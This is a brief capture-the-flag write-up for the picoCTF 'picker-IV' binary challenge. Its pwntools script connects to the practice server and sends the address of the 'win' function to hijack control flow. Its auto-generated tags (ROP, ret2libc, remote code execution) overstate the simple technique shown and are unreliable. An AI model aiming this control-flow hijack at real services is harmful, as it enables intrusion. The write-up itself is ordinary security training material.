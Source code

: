 ```yaml
---
ai_date: '2025-04-27 05:29:50'
ai_summary: 'Exploitation: Remote code execution via controlled input (RCE) using
  a hardcoded address'
ai_tags:
- rop
- ret2libc
- remote-code-execution
created: 2024-08-08T02:30
updated: 2024-08-08T02:36
---
```


We have to jump to `win`.

```python
from pwn import *
elf = ELF('./picker-IV')
r = remote('saturn.picoctf.net', 53475)
r.sendlineafter(b': ', hex(elf.symbols['win'])[2:])
print(r.recvall().decode())
```